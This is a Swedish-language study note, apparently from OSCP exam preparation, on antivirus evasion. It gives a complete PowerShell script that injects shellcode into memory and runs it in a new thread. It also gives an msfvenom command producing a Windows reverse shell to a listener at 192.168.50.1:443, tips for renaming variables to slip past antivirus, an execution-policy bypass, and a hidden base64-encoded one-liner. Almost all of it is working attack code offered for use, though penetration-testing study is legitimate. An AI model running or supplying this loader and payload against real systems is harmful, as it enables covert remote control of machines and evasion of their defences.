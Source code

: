 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/6-antivirus-evasion/2-manual-thread-injection/","updated":"2024-01-05T11:34:45.426+01:00"}
---
```


### In-memory Thread Injection Using Powershell:

1. Skapa ps1-skript med följande kod:
```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
2. Generera payload med msfvenom enligt följande:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc
```
3. Byt ut variabelnamn på t.ex. $winFunc och $sc till mer generiska namn för att ungå AVs. Byt även ut namnet på class-namnet från "Win32" till något annat.
4. Sätt upp lyssnare och exekvera skriptet på valfritt sätt genom powershell (x86).
5. Om det inte tillåts pga execution policies ändra genom:
```powershell
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

------------

### One-liner genom encodedCommand:

Använd https://github.com/darkoperator/powershell_scripts/tree/master och generera en base-64 sträng med hela skriptet genom:
```bash
python3 ps_encoder.py -s malware.ps1
```
Kör sedan commandot i powershell genom:
```powershell
powershell.exe -encodedCommand ...ByAHQALQBzAGwAZQBlAHAAIAA2ADAAIAB9ADsACgA=
```
Extra secrecy:
```powershell
powershell.exe -NoP -NonI -W Hidden -Exec Bypass -encodedCommand
```
